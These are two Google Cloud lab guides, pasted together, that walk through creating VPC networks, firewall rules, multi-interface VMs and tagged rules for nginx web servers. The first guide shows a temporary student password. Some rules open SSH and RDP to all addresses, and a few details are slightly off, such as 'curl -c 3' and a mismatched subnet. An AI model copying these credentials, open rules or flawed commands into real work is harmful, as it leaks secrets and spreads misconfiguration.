You learned how to use BeyondCorp Enterprise (BCE) and Identity-Aware Proxy (IAP) TCP forwarding by deploying 2 VM's, windows-iap and linux-iap, without IP addresses and configuring an IAP tunnel which gave you access to both instances using a third VM, windows-connectivity.
LAB - Multiple VPC Networks
Overview
Virtual Private Cloud (VPC) networks allow you to maintain isolated environments within a larger cloud structure, giving you granular control over data protection, network access, and application security.
In this lab you create several VPC networks and VM instances, then test connectivity across networks. Specifically, you create two custom mode networks (managementnet and privatenet) with firewall rules and VM instances as shown in this network diagram:
The mynetwork network with its firewall rules and two VM instances (mynet-vm-1 and mynet-vm-2) have already been created for you for this lab.
Objectives
In this lab, you will learn how to perform the following tasks:
Create custom mode VPC networks with firewall rules
Create VM instances using Compute Engine
Explore the connectivity for VM instances across VPC networks
Create a VM instance with multiple network interfaces
Setup and requirements
Before you click the Start Lab button
Read these instructions. Labs are timed and you cannot pause them. The timer, which starts when you click Start Lab, shows how long Google Cloud resources are made available to you.
This hands-on lab lets you do the lab activities in a real cloud environment, not in a simulation or demo environment. It does so by giving you new, temporary credentials you use to sign in and access Google Cloud for the duration of the lab.
To complete this lab, you need:
Access to a standard internet browser (Chrome browser recommended).
Note: Use an Incognito (recommended) or private browser window to run this lab. This prevents conflicts between your personal account and the student account, which may cause extra charges incurred to your personal account.
Time to complete the lab—remember, once you start, you cannot pause a lab.
Note: Use only the student account for this lab. If you use a different Google Cloud account, you may incur charges to that account.
How to start your lab and sign in to the Google Cloud console
Click the Start Lab button. If you need to pay for the lab, a dialog opens for you to select your payment method. On the left is the Lab Details pane with the following:
The Open Google Cloud console button
Time remaining
The temporary credentials that you must use for this lab
Other information, if needed, to step through this lab
Click Open Google Cloud console (or right-click and select Open Link in Incognito Window if you are running the Chrome browser).
The lab spins up resources, and then opens another tab that shows the Sign in page.
*Tip:* Arrange the tabs in separate windows, side-by-side.
Note: If you see the Choose an account dialog, click Use Another Account.
If necessary, copy the Username below and paste it into the Sign in dialog.
xxxxxxxxxxstudent-00-56936274bf09@qwiklabs.netCopied!
You can also find the Username in the Lab Details pane.
Click Next.
Copy the Password below and paste it into the Welcome dialog.
xxxxxxxxxxTd8iY5FMBo8nCopied!
You can also find the Password in the Lab Details pane.
Click Next.
Important: You must use the credentials the lab provides you. Do not use your Google Cloud account credentials.
Note: Using your own Google Cloud account for this lab may incur extra charges.
Click through the subsequent pages:
Accept the terms and conditions.
Do not add recovery options or two-factor authentication (because this is a temporary account).
Do not sign up for free trials.
After a few moments, the Google Cloud console opens in this tab.
Note: To access Google Cloud products and services, click the Navigation menu or type the service or product name in the Search field.
Activate Cloud Shell
Cloud Shell is a virtual machine that is loaded with development tools. It offers a persistent 5GB home directory and runs on the Google Cloud. Cloud Shell provides command-line access to your Google Cloud resources.
Click Activate Cloud Shell
Click through the following windows:
Continue through the Cloud Shell information window.
Authorize Cloud Shell to use your credentials to make Google Cloud API calls.
When you are connected, you are already authenticated, and the project is set to your Project_ID, qwiklabs-gcp-01-2d86450f8da2. The output contains a line that declares the Project_ID for this session:
xxxxxxxxxxYour Cloud Platform project in this session is set to qwiklabs-gcp-01-2d86450f8da2
gcloud is the command-line tool for Google Cloud. It comes pre-installed on Cloud Shell and supports tab-completion.
(Optional) You can list the active account name with this command:
xxxxxxxxxxgcloud auth list
Copied!
Click Authorize.
Output:
xxxxxxxxxxACTIVE: *ACCOUNT: student-00-56936274bf09@qwiklabs.netTo set the active account, run:$ gcloud config set account `ACCOUNT`
(Optional) You can list the project ID with this command:
xxxxxxxxxxgcloud config list project
Copied!
Output:
xxxxxxxxxx[core]project = qwiklabs-gcp-01-2d86450f8da2
Note: For full documentation of gcloud, in Google Cloud, refer to the gcloud CLI overview guide.
Task 1. Create custom mode VPC networks with firewall rules
Create two custom networks managementnet and privatenet, along with firewall rules to allow SSH, ICMP, and RDP ingress traffic.
Create the managementnet network
Create the managementnet network using the Cloud console.
In the Cloud console, navigate to Navigation menu (
Notice the default and mynetwork networks with their subnets.
Each Google Cloud project starts with the default network. In addition, the mynetwork network has been premade as part of your network diagram.
Click Create VPC Network.
Set the Name to
managementnet.For Subnet creation mode, click Custom.
Set the following values, leave all other values at their defaults:
Property Value (type value or select option as specified) Name managementsubnet-1 Region us-west1IPv4 range 10.130.0.0/20 Click Done.
Click EQUIVALENT COMMAND LINE.
These commands illustrate that networks and subnets can be created using the Cloud Shell command line. You will create the privatenet network using these commands with similar parameters.
Click Close.
Click Create.
Test Completed Task
Click Check my progress to verify your performed task. If you have successfully created a managementnet network, you will see an assessment score.
Create the managementnet network
Check my progress
Create the privatenet network
Create the privatenet network using the Cloud Shell command line.
Run the following command to create the privatenet network:
xxxxxxxxxxgcloud compute networks create privatenet --subnet-mode=custom
Copied!
Run the following command to create the privatesubnet-1 subnet:
xxxxxxxxxxgcloud compute networks subnets create privatesubnet-1 --network=privatenet --region=us-west1 --range=172.16.0.0/24
Copied!
Run the following command to create the privatesubnet-2 subnet:
xxxxxxxxxxgcloud compute networks subnets create privatesubnet-2 --network=privatenet --region=europe-west4 --range=172.20.0.0/20
Copied!
Test Completed Task
Click Check my progress to verify your performed task. If you have successfully created a privatenet network, you will see an assessment score.
Create the privatenet network
Check my progress
Run the following command to list the available VPC networks:
xxxxxxxxxxgcloud compute networks list
Copied!
The output should look like this:
xxxxxxxxxxNAME: defaultSUBNET_MODE: AUTOBGP_ROUTING_MODE: REGIONALIPV4_RANGE:GATEWAY_IPV4:NAME: managementnetSUBNET_MODE: CUSTOMBGP_ROUTING_MODE: REGIONALIPV4_RANGE:GATEWAY_IPV4:...
Note: default and mynetwork are auto mode networks, whereas, managementnet and privatenet are custom mode networks. Auto mode networks create subnets in each region automatically, while custom mode networks start with no subnets, giving you full control over subnet creation
Run the following command to list the available VPC subnets (sorted by VPC network):
xxxxxxxxxxgcloud compute networks subnets list --sort-by=NETWORK
Copied!
The output should look like this:
xxxxxxxxxxNAME: defaultREGION: us-west1NETWORK: defaultRANGE: 10.128.0.0/20STACK_TYPE: IPV4_ONLYIPV6_ACCESS_TYPE:INTERNAL_IPV6_PREFIX:EXTERNAL_IPV6_PREFIX:...
Note: As expected, the default and mynetwork networks have subnets in each region (zones/regions may changes as per lab's requirements) as they are auto mode networks. The managementnet and privatenet networks only have the subnets that you created as they are custom mode networks .
In the Cloud console, navigate to Navigation menu > VPC network > VPC networks.
You see that the same networks and subnets are listed in the Cloud console.
Create the firewall rules for managementnet
Create firewall rules to allow SSH, ICMP, and RDP ingress traffic to VM instances on the managementnet network.
In the Cloud console, navigate to Navigation menu (
Click + Create Firewall Rule.
Set the following values, leave all other values at their defaults:
Property Value (type value or select option as specified) Name managementnet-allow-icmp-ssh-rdp Network managementnet Targets All instances in the network Source filter IPv4 Ranges Source IPv4 ranges 0.0.0.0/0 Protocols and ports Specified protocols and ports, and then check tcp, type: 22, 3389; and check Other protocols, type: icmp.
Note: Make sure to include the /0 in the Source IPv4 ranges to specify all networks.
Click EQUIVALENT COMMAND LINE.
These commands illustrate that firewall rules can also be created using the Cloud Shell command line. You will create the privatenet's firewall rules using these commands with similar parameters.
Click Close.
Click Create.
Test Completed Task
Click Check my progress to verify your performed task. If you have successfully created firewall rules for managementnet network, you will see an assessment score.
Create the firewall rules for managementnet
Check my progress
Create the firewall rules for privatenet
Create the firewall rules for privatenet network using the Cloud Shell command line.
In Cloud Shell, run the following command to create the privatenet-allow-icmp-ssh-rdp firewall rule:
xxxxxxxxxxgcloud compute firewall-rules create privatenet-allow-icmp-ssh-rdp --direction=INGRESS --priority=1000 --network=privatenet --action=ALLOW --rules=icmp,tcp:22,tcp:3389 --source-ranges=0.0.0.0/0
Copied!
The output should look like this:
xxxxxxxxxxCreating firewall...done.NAME: privatenet-allow-icmp-ssh-rdpNETWORK: privatenetDIRECTION: INGRESSPRIORITY: 1000ALLOW: icmp,tcp:22,tcp:3389DENY:DISABLED: False
Test Completed Task
Click Check my progress to verify your performed task. If you have successfully created firewall rules for privatenet network, you will see an assessment score.
Create the firewall rules for privatenet
Check my progress
Run the following command to list all the firewall rules (sorted by VPC network):
xxxxxxxxxxgcloud compute firewall-rules list --sort-by=NETWORK
Copied!
The output should look like this:
xxxxxxxxxxNAME: default-allow-icmpNETWORK: defaultDIRECTION: INGRESSPRIORITY: 65534ALLOW: icmpDENY:DISABLED: FalseNAME: default-allow-internalNETWORK: defaultDIRECTION: INGRESSPRIORITY: 65534ALLOW: tcp:0-65535,udp:0-65535,icmpDENY:DISABLED: False...
The firewall rules for mynetwork network have been created for you. You can define multiple protocols and ports in one firewall rule (privatenet and managementnet), or spread them across multiple rules (default and mynetwork).
In the Cloud console, navigate to Navigation menu > VPC network > Firewall.
You see that the same firewall rules are listed in the Cloud console.
Task 2. Create VM instances
Create two VM instances:
managementnet-vm-1 in managementsubnet-1
privatenet-vm-1 in privatesubnet-1
Create the managementnet-vm-1 instance
Create the managementnet-vm-1 instance using the Cloud console.
In the Cloud console, navigate to Navigation menu > Compute Engine > VM instances.
The mynet-vm-2 and mynet-vm-1 has been created for you, as part of your network diagram.
Click Create Instance.
In the Machine configuration:
Set the following values, leave all other values at their defaults:
Property Value (type value or select option as specified) Name managementnet-vm-1 Region us-west1Zone us-west1-aSeries E2Machine Type e2-microClick Networking.
For Network interfaces, click the dropdown to edit. Set the following values, leave all other values at their defaults:
Property Value (type value or select option as specified) Network managementnet Subnetwork managementsubnet-1 Click Done.
Click EQUIVALENT CODE.
This illustrate that VM instances can also be created using the Cloud Shell command line. You will create the privatenet-vm-1 instance using these commands with similar parameters.
Click Create.
Test Completed Task
Click Check my progress to verify your performed task. If you have successfully created VM instance in managementnet network, you will see an assessment score.
Create the managementnet-vm-1 instance
Check my progress
Create the privatenet-vm-1 instance
Create the privatenet-vm-1 instance using the Cloud Shell command line.
In Cloud Shell, run the following command to create the privatenet-vm-1 instance:
xxxxxxxxxxgcloud compute instances create privatenet-vm-1 --zone=us-west1-a --machine-type=e2-micro --subnet=privatesubnet-1
Copied!
The output should look like this:
xxxxxxxxxxCreated [https://www.googleapis.com/compute/v1/projects/qwiklabs-gcp-04-972c7275ce91/zones/"us-west1-a"/instances/privatenet-vm-1].NAME: privatenet-vm-1ZONE: us-west1-aMACHINE_TYPE: e2-microPREEMPTIBLE:INTERNAL_IP: 172.16.0.2EXTERNAL_IP: 34.135.195.199STATUS: RUNNING
Test Completed Task
Click Check my progress to verify your performed task. If you have successfully created VM instance in privatenet network, you will see an assessment score.
Create the privatenet-vm-1 instance
Check my progress
Run the following command to list all the VM instances (sorted by zone):
xxxxxxxxxxgcloud compute instances list --sort-by=ZONE
Copied!
The output should look like this:
xxxxxxxxxxNAME: mynet-vm-2ZONE: europe-west4-aMACHINE_TYPE: e2-microPREEMPTIBLE:INTERNAL_IP: 10.164.0.2EXTERNAL_IP: 34.147.23.235STATUS: RUNNINGNAME: mynet-vm-1ZONE: us-west1-aMACHINE_TYPE: e2-microPREEMPTIBLE:INTERNAL_IP: 10.128.0.2EXTERNAL_IP: 35.232.221.58STATUS: RUNNING...
In the Cloud console, navigate to Navigation menu (
You see that the VM instances are listed in the Cloud console.
Click on Column display options, then select Network. Click Ok.
There are three instances in
us-west1and one instance ineurope-west4. However, these instances are spread across three VPC networks (managementnet, mynetwork and privatenet), with no instance in the same zone and network as another. In the next section, you explore the effect this has on internal connectivity.
Task 3. Explore the connectivity between VM instances
Explore the connectivity between the VM instances. Specifically, determine the effect of having VM instances in the same zone versus having instances in the same VPC network.
Ping the external IP addresses
Ping the external IP addresses of the VM instances to determine if you can reach the instances from the public internet.
In the Cloud console, navigate to Navigation menu > Compute Engine > VM instances.
Note the external IP addresses for mynet-vm-2, managementnet-vm-1, and privatenet-vm-1.
For mynet-vm-1, click SSH to launch a terminal and connect.
To test connectivity to mynet-vm-2's external IP, run the following command, replacing mynet-vm-2's external IP:
xxxxxxxxxxping -c 3 'Enter mynet-vm-2 external IP here'
Copied!
This should work!
To test connectivity to managementnet-vm-1's external IP, run the following command, replacing managementnet-vm-1's external IP:
xxxxxxxxxxping -c 3 'Enter managementnet-vm-1 external IP here'
Copied!
This should work!
To test connectivity to privatenet-vm-1's external IP, run the following command, replacing privatenet-vm-1's external IP:
xxxxxxxxxxping -c 3 'Enter privatenet-vm-1 external IP here'
Copied!
This should work!
Note: You are able to ping the external IP address of all VM instances, even though they are either in a different zone or VPC network. This confirms public access to those instances is only controlled by the ICMP firewall rules that you established earlier.
Ping the internal IP addresses
Ping the internal IP addresses of the VM instances to determine if you can reach the instances from within a VPC network.
In the Cloud console, navigate to Navigation menu > Compute Engine > VM instances.
Note the internal IP addresses for mynet-vm-2, managementnet-vm-1, and privatenet-vm-1.
Return to the SSH terminal for mynet-vm-1.
To test connectivity to mynet-vm-2's internal IP, run the following command, replacing mynet-vm-2's internal IP:
xxxxxxxxxxping -c 3 'Enter mynet-vm-2 internal IP here'
Copied!
Note: You are able to ping the internal IP address of mynet-vm-2 because it is on the same VPC network as the source of the ping (mynet-vm-1), even though both VM instances are in separate zones, regions and continents!
To test connectivity to managementnet-vm-1's internal IP, run the following command, replacing managementnet-vm-1's internal IP:
xxxxxxxxxxping -c 3 'Enter managementnet-vm-1 internal IP here'
Copied!
Note: This should not work as indicated by a 100% packet loss!
To test connectivity to privatenet-vm-1's internal IP, run the following command, replacing privatenet-vm-1's internal IP:
xxxxxxxxxxping -c 3 'Enter privatenet-vm-1 internal IP here'
Copied!
Note: This should not work either as indicated by a 100% packet loss! You are unable to ping the internal IP address of managementnet-vm-1 and privatenet-vm-1 because they are in separate VPC networks from the source of the ping (mynet-vm-1), even though they are all in the same region us-west1.
VPC networks are by default isolated private networking domains. However, no internal IP address communication is allowed between networks, unless you set up mechanisms such as VPC peering or VPN.
Note: For the below task consider region_1 = us-west1 and region_2 = europe-west4
`
Which instance(s) should you be able to ping from mynet-region-1-vm using internal IP addresses?
managementnet-region-1-vm
privatenet-region-1-vm
mynet-region-2-vm
Submit
Task 4. Create a VM instance with multiple network interfaces
Every instance in a VPC network has a default network interface. You can create additional network interfaces attached to your VMs. Multiple network interfaces enable you to create configurations in which an instance connects directly to several VPC networks (up to 8 interfaces, depending on the instance's type).
Create the VM instance with multiple network interfaces
Create the vm-appliance instance with network interfaces in privatesubnet-1, managementsubnet-1 and mynetwork. The CIDR ranges of these subnets do not overlap, which is a requirement for creating a VM with multiple network interface controllers (NICs).
In the Cloud console, navigate to Navigation menu > Compute Engine > VM instances.
Click Create Instance.
In the Machine configuration:
Set the following values, leave all other values at their defaults:
Property Value (type value or select option as specified) Name vm-appliance Region us-west1Zone us-west1-aSeries E2Machine Type e2-standard-4
Note: The number of interfaces allowed in an instance is dependent on the instance's machine type and the number of vCPUs. The e2-standard-4 allows up to 4 network interfaces. Refer to the Maximum number of network interfaces section of the Google Cloud Guide for more information.
Click Networking.
For Network interfaces, click the dropdown to edit. Set the following values, leave all other values at their defaults:
Property Value (type value or select option as specified) Network privatenet Subnetwork privatesubnet-1 Click Done.
Click Add a network interface.
Set the following values, leave all other values at their defaults:
Property Value (type value or select option as specified) Network managementnet Subnetwork managementsubnet-1 Click Done.
Click Add a network interface.
Set the following values, leave all other values at their defaults:
Property Value (type value or select option as specified) Network mynetwork Subnetwork mynetwork Click Done.
Click Create.
Test Completed Task
Click Check my progress to verify your performed task. If you have successfully created VM instance with multiple network interfaces, you will see an assessment score.
Create a VM instance with multiple network interfaces
Check my progress
Explore the network interface details
Explore the network interface details of vm-appliance within the Cloud console and within the VM's terminal.
In the Cloud console, navigate to Navigation menu (
Click nic0 within the Internal IP address of vm-appliance to open the Network interface details page.
Verify that nic0 is attached to privatesubnet-1, is assigned an internal IP address within that subnet (172.16.0.0/24), and has applicable firewall rules.
Click nic0 and select nic1.
Verify that nic1 is attached to managementsubnet-1, is assigned an internal IP address within that subnet (10.130.0.0/20), and has applicable firewall rules.
Click nic1 and select nic2.
Verify that nic2 is attached to mynetwork, is assigned an internal IP address within that subnet (10.128.0.0/20), and has applicable firewall rules.
Note: Each network interface has its own internal IP address so that the VM instance can communicate with those networks.
In the Cloud console, navigate to Navigation menu > Compute Engine > VM instances.
For vm-appliance, click SSH to launch a terminal and connect.
Run the following, to list the network interfaces within the VM instance:
xxxxxxxxxxsudo ifconfig
Copied!
The output should look like this:
xxxxxxxxxxeth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1460inet 172.16.0.3 netmask 255.255.255.255 broadcast 172.16.0.3inet6 fe80::4001:acff:fe10:3 prefixlen 64 scopeid 0x20<link>ether 42:01:ac:10:00:03 txqueuelen 1000 (Ethernet)RX packets 626 bytes 171556 (167.5 KiB)RX errors 0 dropped 0 overruns 0 frame 0TX packets 568 bytes 62294 (60.8 KiB)TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1460inet 10.130.0.3 netmask 255.255.255.255 broadcast 10.130.0.3inet6 fe80::4001:aff:fe82:3 prefixlen 64 scopeid 0x20<link>ether 42:01:0a:82:00:03 txqueuelen 1000 (Ethernet)RX packets 7 bytes 1222 (1.1 KiB)RX errors 0 dropped 0 overruns 0 frame 0TX packets 17 bytes 1842 (1.7 KiB)TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0eth2: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1460inet 10.128.0.3 netmask 255.255.255.255 broadcast 10.128.0.3inet6 fe80::4001:aff:fe80:3 prefixlen 64 scopeid 0x20<link>ether 42:01:0a:80:00:03 txqueuelen 1000 (Ethernet)RX packets 17 bytes 2014 (1.9 KiB)RX errors 0 dropped 0 overruns 0 frame 0TX packets 17 bytes 1862 (1.8 KiB)TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0
Note: The sudo ifconfig command lists a Linux VM's network interfaces along with the internal IP addresses for each interface.
Explore the network interface connectivity
Demonstrate that the vm-appliance instance is connected to privatesubnet-1, managementsubnet-1 and mynetwork by pinging VM instances on those subnets.
In the Cloud console, navigate to Navigation menu > Compute Engine > VM instances.
Note the internal IP addresses for privatenet-vm-1, managementnet-vm-1, mynet-vm-1, and mynet-vm-2.
Return to the SSH terminal for vm-appliance.
To test connectivity to privatenet-vm-1's internal IP, run the following command, replacing privatenet-vm-1's internal IP:
xxxxxxxxxxping -c 3 'Enter privatenet-vm-1's internal IP here'
Copied!
This works!
Repeat the same test by running the following:
xxxxxxxxxxping -c 3 privatenet-vm-1
Copied!
Note: You are able to ping privatenet-vm-1 by its name because VPC networks have an internal DNS service that allows you to address instances by their DNS names rather than their internal IP addresses. When an internal DNS query is made with the instance hostname, it resolves to the primary interface (nic0) of the instance. Therefore, this only works for privatenet-vm-1 in this case.
To test connectivity to managementnet-vm-1's internal IP, run the following command, replacing managementnet-vm-1's internal IP:
xxxxxxxxxxping -c 3 'Enter managementnet-vm-1's internal IP here'
Copied!
This works!
To test connectivity to mynet-vm-1's internal IP, run the following command, replacing mynet-vm-1's internal IP:
xxxxxxxxxxping -c 3 'Enter mynet-vm-1's internal IP here'
Copied!
This works!
To test connectivity to mynet-vm-2's internal IP, run the following command, replacing mynet-vm-2's internal IP:
xxxxxxxxxxping -c 3 'Enter mynet-vm-2's internal IP here'
Copied!
Note: This does not work! In a multiple interface instance, every interface gets a route for the subnet that it is in. In addition, the instance gets a single default route that is associated with the primary interface eth0. Unless manually configured otherwise, any traffic leaving an instance for any destination other than a directly connected subnet will leave the instance via the default route on eth0.
To list the routes for vm-appliance instance, run the following command:
xxxxxxxxxxip route
Copied!
The output should look like this:
xxxxxxxxxxdefault via 172.16.0.1 dev eth010.128.0.0/20 via 10.128.0.1 dev eth210.128.0.1 dev eth2 scope link10.130.0.0/20 via 10.130.0.1 dev eth110.130.0.1 dev eth1 scope link172.16.0.0/24 via 172.16.0.1 dev eth0172.16.0.1 dev eth0 scope link
Note: The primary interface eth0 gets the default route (default via 172.16.0.1 dev eth0), and all three interfaces eth0, eth1 and eth2 get routes for their respective subnets. Since, the subnet of mynet-vm-2 (10.132.0.0/20) is not included in this routing table, the ping to that instance leaves vm-appliance on eth0 (which is on a different VPC network). You could change this behavior by configuring policy routing as documented in the Configuring policy routing section of the Google Cloud Guide.
Congratulations!
In this lab you created a VM instance with three network interfaces and verified internal connectivity for VM instances that are on the subnets that are attached to the multiple interface VM.
You also explored the default network along with its subnets, routes, and firewall rules. You then created tested connectivity for a new auto mode VPC network.
LAB - VPC Networks - Controlling Access
Overview
In the real-world you need to protect sensitive data and ensure the continued availability of your web applications at all times. Learn how to use the Google Cloud VPC network to create a more secure, scalable, and manageable web server deployment within your Google Cloud environment.
In this lab, you create two nginx web servers on the default VPC network and control external HTTP access to the web servers using tagged firewall rules. Then, you explore IAM roles and service accounts.
Two web servers gives you redundancy - if one web server fails, the other can continue serving web traffic, preventing downtime.
Tagged firewall rules provide granular control over which traffic is allowed to reach specific web servers.
By assigning a service account permission to perform tasks, you're upholding the principal of least priviledge, keeping your Cloud resources safe.
Objectives
In this lab, you learn how to perform the following tasks:
Create a nginx web server on a vpc network
Create tagged firewall rules
Create a service account with IAM roles
Explore permissions for the Network Admin and Security Admin roles
Setup and requirements
Before you click the Start Lab button
Read these instructions. Labs are timed and you cannot pause them. The timer, which starts when you click Start Lab, shows how long Google Cloud resources are made available to you.
This hands-on lab lets you do the lab activities in a real cloud environment, not in a simulation or demo environment. It does so by giving you new, temporary credentials you use to sign in and access Google Cloud for the duration of the lab.
To complete this lab, you need:
Access to a standard internet browser (Chrome browser recommended).
Note: Use an Incognito (recommended) or private browser window to run this lab. This prevents conflicts between your personal account and the student account, which may cause extra charges incurred to your personal account.
Time to complete the lab—remember, once you start, you cannot pause a lab.
Note: Use only the student account for this lab. If you use a different Google Cloud account, you may incur charges to that account.
How to start your lab and sign in to the Google Cloud console
Click the Start Lab button. If you need to pay for the lab, a dialog opens for you to select your payment method. On the left is the Lab Details pane with the following:
The Open Google Cloud console button
Time remaining
The temporary credentials that you must use for this lab
Other information, if needed, to step through this lab
Click Open Google Cloud console (or right-click and select Open Link in Incognito Window if you are running the Chrome browser).
The lab spins up resources, and then opens another tab that shows the Sign in page.
*Tip:* Arrange the tabs in separate windows, side-by-side.
Note: If you see the Choose an account dialog, click Use Another Account.
If necessary, copy the Username below and paste it into the Sign in dialog.
xxxxxxxxxx"Username"Copied!
You can also find the Username in the Lab Details pane.
Click Next.
Copy the Password below and paste it into the Welcome dialog.
xxxxxxxxxx"Password"Copied!
You can also find the Password in the Lab Details pane.
Click Next.
Important: You must use the credentials the lab provides you. Do not use your Google Cloud account credentials.
Note: Using your own Google Cloud account for this lab may incur extra charges.
Click through the subsequent pages:
Accept the terms and conditions.
Do not add recovery options or two-factor authentication (because this is a temporary account).
Do not sign up for free trials.
After a few moments, the Google Cloud console opens in this tab.
Note: To access Google Cloud products and services, click the Navigation menu or type the service or product name in the Search field.
Activate Cloud Shell
Cloud Shell is a virtual machine that is loaded with development tools. It offers a persistent 5GB home directory and runs on the Google Cloud. Cloud Shell provides command-line access to your Google Cloud resources.
Click Activate Cloud Shell
Click through the following windows:
Continue through the Cloud Shell information window.
Authorize Cloud Shell to use your credentials to make Google Cloud API calls.
When you are connected, you are already authenticated, and the project is set to your Project_ID, PROJECT_ID. The output contains a line that declares the Project_ID for this session:
xxxxxxxxxxYour Cloud Platform project in this session is set to "PROJECT_ID"
gcloud is the command-line tool for Google Cloud. It comes pre-installed on Cloud Shell and supports tab-completion.
(Optional) You can list the active account name with this command:
xxxxxxxxxxgcloud auth list
Copied!
Click Authorize.
Output:
xxxxxxxxxxACTIVE: *ACCOUNT: "ACCOUNT"To set the active account, run:$ gcloud config set account `ACCOUNT`
(Optional) You can list the project ID with this command:
xxxxxxxxxxgcloud config list project
Copied!
Output:
xxxxxxxxxx[core]project = "PROJECT_ID"
Note: For full documentation of gcloud, in Google Cloud, refer to the gcloud CLI overview guide.
Task 1. Create the web servers
In this section, you will create two web servers (blue and green) in the default VPC network. Then, you will install nginx on the web servers and modify the welcome page to distinguish the servers.
Create the blue server
Create the blue server with a network tag.
In the Cloud console, navigate to Navigation menu (
To create a new instance, click Create Instance.
In the Machine configuration.
Select the following values:
Property Value (type value or select option as specified) Name blue Region REGIONZone ZONEFor more information on available regions and zones, in the Google Cloud Compute Engine Region and Zone guide, see the Available regions and zones section of the Compute Engine Guides.
Click Networking.
For Network tags, type
web-server.
Note: Networks use network tags to identify which VM instances are subject to certain firewall rules and network routes. Later in this lab, you create a firewall rule to allow HTTP access for VM instances with the web-server tag. Alternatively, you could check the Allow HTTP traffic checkbox, which would tag this instance as http-server and create the tagged firewall rule for tcp:80 for you.
Click Create.
Test Completed Task
Click Check my progress to verify your performed task. If you have completed the task successfully you will be granted an assessment score.
Create the blue server.
Check my progress
Create the green server
Create the green server without a network tag.
Still in the Console, on the VM instances page, click Create Instance.
In the Machine configuration.
Select the following values:
Property Value (type value or select option as specified) Name green Region REGIONZone ZONEClick Create.
Test Completed Task
Click Check my progress to verify your performed task. If you have completed the task successfully you will be granted an assessment score.
Create the green server.
Check my progress
Install nginx and customize the welcome page
Install nginx on both VM instances and modify the welcome page to distinguish the servers.
Still in the VM instances dialog, for blue, click SSH to launch a terminal and connect.
In the SSH terminal to blue, run the following command to install nginx:
xxxxxxxxxxsudo apt-get install nginx-light -y
Copied!
Open the welcome page in the nano editor:
xxxxxxxxxxsudo nano /var/www/html/index.nginx-debian.html
Copied!
Replace the
<h1>Welcome to nginx!</h1>line with<h1>Welcome to the blue server!</h1>.Press CTRL+o, ENTER, CTRL+x.
Verify the change:
xxxxxxxxxxcat /var/www/html/index.nginx-debian.html
Copied!
The output should contain the following:
xxxxxxxxxx<h1>Welcome to the blue server!</h1><p>If you see this page, the nginx web server is successfully installed andworking. Further configuration is required.</p>
Close the SSH terminal to blue:
xxxxxxxxxxexit
Copied!
Repeat the same steps for the green server:
For green, click SSH to launch a terminal and connect.
Install nginx:
xxxxxxxxxxsudo apt-get install nginx-light -y
Copied!
Open the welcome page in the nano editor:
xxxxxxxxxxsudo nano /var/www/html/index.nginx-debian.html
Copied!
Replace the
<h1>Welcome to nginx!</h1>line with<h1>Welcome to the green server!</h1>.Press CTRL+o, ENTER, CTRL+x.
Verify the change:
xxxxxxxxxxcat /var/www/html/index.nginx-debian.html
Copied!
The output should contain the following:
xxxxxxxxxx<h1>Welcome to the green server!</h1><p>If you see this page, the nginx web server is successfully installed andworking. Further configuration is required.</p>
Close the SSH terminal to green:
xxxxxxxxxxexit
Copied!
Test Completed Task
Click Check my progress to verify your performed task. If you have completed the task successfully you will be granted an assessment score.
Install Nginx and customize the welcome page.
Check my progress
Task 2. Create the firewall rule
Create the tagged firewall rule and test HTTP connectivity.
Create the tagged firewall rule
Create a firewall rule that applies to VM instances with the web-server network tag.
In the Cloud console, navigate to Navigation menu (
Notice the default-allow-internal firewall rule.
Note: The default-allow-internal firewall rule allows traffic on all protocols/ports within the default network. You want to create a firewall rule to allow traffic from outside this network to only the blue server, by using the network tag web-server.
Click Create Firewall Rule.
Set the following values, leave all other values at their defaults.
Property Value (type value or select option as specified) Name allow-http-web-server Network default Targets Specified target tags Target tags web-server Source filter IPv4 Ranges Source IPv4 ranges 0.0.0.0/0 Protocols and ports Specified protocols and ports, and then check tcp, type: 80; and check Other protocols, type: icmp.
Note: Make sure to include the /0 in the Source IP ranges to specify all networks.
Click Create.
Test Completed Task
Click Check my progress to verify your performed task. If you have completed the task successfully you will be granted an assessment score.
Create the tagged firewall rule.
Check my progress
Create a test-vm
Create a test-vm instance using the Cloud Shell command line.
Open a new Cloud Shell terminal.
Run the following command to create a test-vm instance, in the
ZONEzone:
xxxxxxxxxxgcloud compute instances create test-vm --machine-type=e2-micro --subnet=default --zone=ZONE
Copied!
The output should look like this:
xxxxxxxxxxNAME ZONE MACHINE_TYPE PREEMPTIBLE INTERNAL_IP EXTERNAL_IP STATUStest-vm ZONE e2-micro 10.142.0.4 35.237.134.68 RUNNING
Note: You can easily create VM instances from the Console or the gcloud command line.
Test Completed Task
Click Check my progress to verify your performed task. If you have completed the task successfully you will be granted an assessment score.
Create a test-vm.
Check my progress
Test HTTP connectivity
From the test-vm, curl the internal and external IP addresses of blue and green.
In the Console, navigate to Navigation menu (
Note the internal and external IP addresses of blue and green.
For test-vm, click SSH to launch a terminal and connect.
To test HTTP connectivity to blue's internal IP, run the following command, replacing blue's internal IP:
xxxxxxxxxxcurl <Enter blue's internal IP here>
Copied!
You should see the Welcome to the blue server! header.
To test HTTP connectivity to green's internal IP, run the following command, replacing green's internal IP:
xxxxxxxxxxcurl -c 3 <Enter green's internal IP here>
Copied!
You should see the Welcome to the green server! header.
Note: You are able to HTTP access both servers using their internal IP addresses. The connection on tcp:80 is allowed by the default-allow-internal firewall rule, as test-vm is on the same VPC network as the web server's default network.
To test HTTP connectivity to blue's external IP, run the following command, replacing blue's external IP:
xxxxxxxxxxcurl <Enter blue's external IP here>
Copied!
You should see the Welcome to the blue server! header.
To test HTTP connectivity to green's external IP, run the following command, replacing green's external IP:
xxxxxxxxxxcurl -c 3 <Enter green's external IP here>
Copied!
Note: This should not work! The request hangs.
Press CTRL+c to stop the HTTP request.
Note: As expected, you are only able to HTTP access the external IP address of the blue server as the allow-http-web-server only applies to VM instances with the web-server tag.
You can verify the same behavior from your browser by opening a new tab and navigating to http://[External IP of server].
Task 3. Explore the Network and Security Admin roles
Cloud IAM lets you authorize who can take action on specific resources, giving you full control and visibility to manage cloud resources centrally. The following roles are used in conjunction with single-project networking to independently control administrative access to each VPC Network:
Network Admin: Permissions to create, modify, and delete networking resources, except for firewall rules and SSL certificates.
Security Admin: Permissions to create, modify, and delete firewall rules and SSL certificates.
